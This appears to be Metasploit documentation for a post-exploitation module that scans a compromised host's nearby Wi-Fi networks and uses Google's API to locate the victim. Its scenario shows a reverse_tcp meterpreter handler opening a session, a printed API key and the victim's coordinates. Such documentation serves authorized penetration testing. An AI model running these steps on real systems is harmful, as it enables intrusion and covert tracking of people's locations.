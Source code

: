 ## Creating A Testing Environment

  For this module to work you need a box with a wireless adapter.  The following methods are used to gather
  wireless information from the host:
  
  - Windows: `netsh wlan show networks mode=bssid`
  - OSX: `/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s`
  - Linux: `iwlist scanning`
  - Solaris: `dladm scan-wifi`
  - BSD: `dmesg | grep -i wlan | cut -d ':' -f1 | uniq"`
  
  If `GEOLOCATE` is set to true, Google's [GeoLocation APIs](https://developers.google.com/maps/documentation/geolocation/intro) are utilized.
  These APIs require a Google [API key](https://developers.google.com/maps/documentation/geolocation/get-api-key) to use them.  The original
  methodology used by this module in [#3280](https://github.com/rapid7/metasploit-framework/pull/3280),
  which didn't require an API key, was found to no longer work in [#8928](https://github.com/rapid7/metasploit-framework/issues/8928).  
  
## Verification Steps

  1. Start msfconsole
  2. Obatin a meterpreter session via whatever method
  3. Do: `use post/multi/gather/wlan_geolocate`
  4. Do: `set session #`
  5. Do: `set apikey [key]`
  5. Do: `run`

## Options

  **geolocate**
  
  A boolean on if wireless information should only be gathered, or the Google geolocate API should be used to geo the victim.  Defaults to `false`
  
  **apikey**

  A string containing the Google provided geolocation api key. **REQUIRED** if `geolocate` is set to true. Defaults to empty string

## Scenarios

### Windows 10

	resource (met_rev.rc)> use exploit/multi/handler
	resource (met_rev.rc)> set payload windows/meterpreter/reverse_tcp
	payload => windows/meterpreter/reverse_tcp
	resource (met_rev.rc)> setg lhost 2.2.2.2
	lhost => 2.2.2.2
	resource (met_rev.rc)> set lport 9876
	lport => 9876
	resource (met_rev.rc)> setg verbose true
	verbose => true
	resource (met_rev.rc)> exploit
	[*] Exploit running as background job 0.
	[*] Started reverse TCP handler on 2.2.2.2:9876 
	[*] Sending stage (179267 bytes) to 1.1.1.1
	[*] Meterpreter session 1 opened (2.2.2.2:9876 -> 1.1.1.1:16111) at 2017-10-01 19:27:15 -0400
	
	resource (met_rev.rc)> use post/multi/gather/wlan_geolocate
	resource (met_rev.rc)> set geolocate true
	geolocate => true
	resource (met_rev.rc)> set session 1
	session => 1
	resource (met_rev.rc)> set apikey ANza1yFLhaK3lreck7N3S_GYbEtJE3gGg5dJe12
	apikey => ANza1yFLhaK3lreck7N3S_GYbEtJE3gGg5dJe12
	msf post(wlan_geolocate) > run
	[+] Wireless list saved to loot.
	[*] Google indicates the device is within 30.0 meters of 30.3861197,-97.7385878.
	[*] Google Maps URL:  https://maps.google.com/?q=30.3861197,-97.7385878
	[*] Post module execution completed
